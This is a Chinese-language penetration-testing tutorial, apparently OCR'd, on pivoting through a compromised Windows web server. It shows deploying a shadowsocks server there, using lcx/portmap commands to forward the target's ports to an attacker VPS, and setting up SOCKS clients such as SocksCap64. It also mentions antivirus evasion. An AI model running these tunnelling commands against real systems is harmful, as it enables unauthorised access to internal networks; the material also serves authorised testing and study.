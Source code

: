 shadowsocks/libQtShadowsocks

https://github.com/shadowsocks/libQtShadowsocks/releases



将它上传到Windows系统的Web服务器上


config.json
	
	{
	
	    "server":"0.0.0.0",
	
	    "server_port":1080,
	
	    "local_address":"127.0.0.1",
	
	    "local_port":1080,
	
	    "password":"SOCKS5",
	
	    "timeout":600,
	
	    "method":"aes-256-cfb",
	
	    "http_proxy": false,
	
	    "auth": false
	
	}

将config.json文件上传到同一目录下。


由于这个代理服务端并不是架设在具有公网IP的服务器上，并且不具备反弹代理的功能，因此我们还需要利用lcx将代理端口映射到公网上。


https://www.freebuf.com/news/topnews/111545.html

https://www.freebuf.com/articles/system/12182.html

http://rootkiter.com/Termite/

架设代理服务端，

Windows系统的Web服务器上执行:

	shadowsocks-libqss.exe –c config.json –S

![](4.jpg)

lcx.exe 是一个基于 socket 套接字实现的端口转发工具，它是从 linux 下的htran 工具移植到windows平台的。一条正常的socket隧道必具备两端，一侧为服务端，它会监听一个端口等待客户端连接；另一侧为客户端，通过传入服务端的ip和端口，才能主动连接到服务器。

linux vps  

	./portmap -m 2 -p1 2333 -p2 8080

windows vps

	lcx –listen 2333 8080

将本机2333端口上监听到的所有数据转发到本机的8080端口上。

在windows Web服务器上执行

	lcx –slave vps 2333 127.0.0.1 808

将目标机器808端口的所有数据都转发到公网VPS的2333端口上。

(以上2步将本地808端口的web服务映射到vps 8080端口下)


Lcx工具实现的是一对一的端口转发，如果想访问右侧网络中列出的所有端口，就必须一次次的重复lcx的转发过程，效率相当低下。而且服务器都是有装有杀毒软件的，即使有做免杀也不能保证绕过所有的杀毒。

vps回显：

![](2.jpg)

windows web回显

![](3.jpg)


像这种情况就可以用到socks代理，在既能连接外网又能连接内网的WEB服务器上架设代理。



socks代理其实也可理解为一个增强版的 lcx，它在服务端监听一个服务端口，当有新的连接请求时会从socks协议中解析出访问目标的URL的目标端口，再开始执行lcx的具体功能。



比较常见的Socks5工具有htran，reGeorg等，socks4的有metasploit

Proxifier是一款功能非常强大的socks5客户端，可以让不支持通过代理服务器工作的网络程序能通过HTTPS或SOCKS代理或代理链。

## SocksCap64  代理单个程序 (windows)  (SocksCap64-Portable-4.7)

1 开启ss,pac模式，或代理服务器
 
2 配置 SocksCap64 添加本地代理

![](5.jpg)

3 添加想代理的程序，可以是exe文件的路径

4 添加完右键点击想要使用代理的程序，选择"在代理隧道中运行选中程序"。

5 例如我添加的火狐。打开百度查ip，发现是ss的ip，说明浏览器所有流量走socks代理了。这里有一个问题，访问google.com 网址失败。

用谷歌浏览器无此问题。




## 参考资料

[EW多级渗透](http://www.dkys.org/archives/1168.html)